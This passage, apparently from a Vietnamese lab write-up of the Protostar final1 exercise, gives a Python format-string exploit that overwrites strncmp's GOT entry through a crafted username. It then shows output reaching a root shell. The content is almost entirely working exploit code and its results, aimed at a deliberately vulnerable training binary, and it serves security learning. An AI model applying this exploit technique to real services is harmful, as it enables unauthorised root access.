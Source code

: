 ```py
pad = "A" * (24-len(hostname))

STRNCMP_1 = struct.pack("I", 0x0804a1a8)
STRNCMP_2 = struct.pack("I", 0x0804a1a8+2)

username = pad  +  STRNCMP_1 + STRNCMP_2 + "%16$65408x" + "%17$n" + "%16$47164x" + "%18$n"
login = "login " + "AAAA"
print(read_until("[final1] $ "))
s.send("username "+username+"\n")
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
s.send(login+ "\n" )
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
t = telnetlib.Telnet()
t.sock = s
t.interact()
```
## Kết quả
```
user@protostar:/tmp$ python final1.py
[final1] $
waiting ... hit [enter]
[final1] $
waiting ... hit [enter]
login failed
[final1] $
whoami
root
[final1] $ id
uid=0(root) gid=0(root) groups=0(root)
[final1] $
```
## References 
- https://askubuntu.com/questions/704939/how-to-kill-a-process-in-state-t-terminated
- https://www.youtube.com/watch?v=MBz5C9Wa6KM&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=37&ab_channel=LiveOverflow